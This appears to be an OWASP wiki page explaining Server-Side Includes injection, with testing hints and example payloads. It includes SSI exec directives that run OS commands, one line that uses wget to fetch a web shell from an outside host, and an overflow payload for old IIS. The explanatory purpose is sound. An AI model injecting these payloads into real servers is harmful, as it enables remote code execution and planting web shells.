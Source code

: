 ```yaml
---

layout: col-sidebar
title: Server-Side Includes (SSI) Injection
author: 
contributors: 
permalink: /attacks/Server-Side_Includes_(SSI)_Injection
tags: attack, Server-Side Includes (SSI) Injection
auto-migrated: 1

---
```


## Description

SSIs are directives present on Web applications used to feed an HTML
page with dynamic contents. They are similar to CGIs, except that SSIs
are used to execute some actions before the current page is loaded or
while the page is being visualized. In order to do so, the web server
analyzes SSI before supplying the page to the user.

The Server-Side Includes attack allows the exploitation of a web
application by injecting scripts in HTML pages or executing arbitrary
codes remotely. It can be exploited through manipulation of SSI in use
in the application or force its use through user input fields.

It is possible to check if the application is properly validating input
fields data by inserting characters that are used in SSI directives,
like:

`< ! # = / . " - > and [a-zA-Z0-9] `

Another way to discover if the application is vulnerable is to verify
the presence of pages with extension .stm, .shtm and .shtml. However,
the lack of these type of pages does not mean that the application is
protected against SSI attacks.

In any case, the attack will be successful only if the web server
permits SSI execution without proper validation. This can lead to access
and manipulation of file system and process under the permission of the
web server process owner.

The attacker can access sensitive information, such as password files,
and execute shell commands. The SSI directives are injected in input
fields and they are sent to the web server. The web server parses and
executes the directives before supplying the page. Then, the attack
result will be viewable the next time that the page is loaded for the
user's browser.

## Risk Factors

TBD

## Examples

### Example 1

The commands used to inject SSI vary according to the server operational
system in use. The following commands represent the syntax that should
be used to execute OS commands.

**Linux:**

List files of directory:

`<!--#exec cmd="ls" -->`

Access directories:

`<!--#exec cmd="cd /root/dir/">`

Execution script:

`<!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->`

**Windows:**

List files of directory:

`<!--#exec cmd="dir" -->`

Access directories:

`<!--#exec cmd="cd C:\admin\dir">`

### Example 2

Other SSI examples that can be used to access and set server
information:

To change the error message output:

`<!--#config errmsg="File not found, informs users and password"-->`

To show current document filename:

`<!--#echo var="DOCUMENT_NAME" -->`

To show virtual path and filename:

`<!--#echo var="DOCUMENT_URI" -->`

Using the “config” command and “timefmt” parameter, it is possible to
control the date and time output format:

`<!--#config timefmt="A %B %d %Y %r"-->`

Using the “fsize” command, it is possible to print the size of selected
file:

`<!--#fsize file="ssi.shtml" -->`

### Example 3

An old vulnerability in the IIS versions 4.0 and 5.0 allows an attacker
to obtain system privileges through a buffer overflow failure in a
dynamic link library (ssinc.dll). The “ssinc.dll” is used to interpreter
process Server-Side Includes.
[CVE 2001-0506](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CAN-2001-0506).

By creating a malicious page containing the SSI code bellow and forcing
the application to load this page ([Path
Traversal](Path_Traversal "wikilink") attack), it’s possible to perform
this attack:

ssi_over.shtml

`<!--#include file=”UUUUUUUU...UU”-->`

PS: The number of “U” needs to be longer than 2049.

Forcing application to load the ssi_over.shtml page:

Non-malicious URL:

`www.vulnerablesite.org/index.asp?page=news.asp`

Malicious URL:

`www.vulnerablesite.org/index.asp?page=www.malicioussite.com/ssi_over.shtml`

If the IIS return a blank page it indicates that an overflow has
occurred. In this case, the attacker might manipulate the procedure flow
and executes arbitrary code.

## Related [Threat Agents](Threat_Agents "wikilink")

  - [:Category:Command
    Execution](:Category:Command_Execution "wikilink")

## Related [Attacks](Attacks "wikilink")

  - [Code Injection](Code_Injection "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")

## References

  - <http://www.comptechdoc.org/independent/web/cgi/ssimanual/ssiexamples.html>
    - SSI Examples

\[\[Category:FIXME|link not working

  - <http://www.students.mines.edu/examples/> - CGI and SSI Examples

\]\]

[Category:OWASP ASDR Project](Category:OWASP_ASDR_Project "wikilink")
[need content here](Category:FIXME "wikilink")
[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink")